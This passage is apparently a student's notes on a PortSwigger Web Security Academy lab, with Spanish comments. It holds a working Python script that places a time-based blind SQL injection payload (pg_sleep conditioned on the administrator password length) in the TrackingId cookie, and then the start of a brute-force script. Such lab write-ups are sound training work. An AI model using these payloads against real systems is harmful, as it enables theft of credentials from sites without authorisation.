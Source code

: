 ```python
#URL a atacar
main_url = "https://0a3e00160399f6f1c22e4d80002d0035.web-security-academy.net//"

def makeRequest():
	#variable que almacenara la longitud
    logitud = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Longitud")

	#ciclo para validar la longitud entre 1 y 50 caracteres
    for position in range(1,50):
	    # el blind sqli se encunetra en las cookies
        cookies = {
            'TrackingId':"5wIAPX6GqgqAWVsT'||(select case when (length(password)=%d) then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')-- -" % (position),
            'session':'oja3JaI322kOOkW9b3oUJaoodaQ9bXE8'
        }

        p1.status(cookies['TrackingId'])

        time_start = time.time()

		# se realiza el request con la inyeccion
        r = requests.get(main_url, cookies=cookies)

        time_end = time.time()
	
		#verificamos si tiene el mensaje que diferencia la solicitud
		#recordemos que si muestra el mensaje es que el dato es correcto
        if time_end - time_start  > 3:
            logitud = str(position)
            p2.status(logitud)
            break

#inicio del flujo
if __name__ == '__main__':
    makeRequest()
```

![[Pasted image 20230213220445.png]]

**brute force password attack**

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#ctr+c
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a3e00160399f6f1c22e4d80002d0035.web-security-academy.net/"

# string.punctuation (caracteres especiales)
# string.digits (digitos 0-9)
```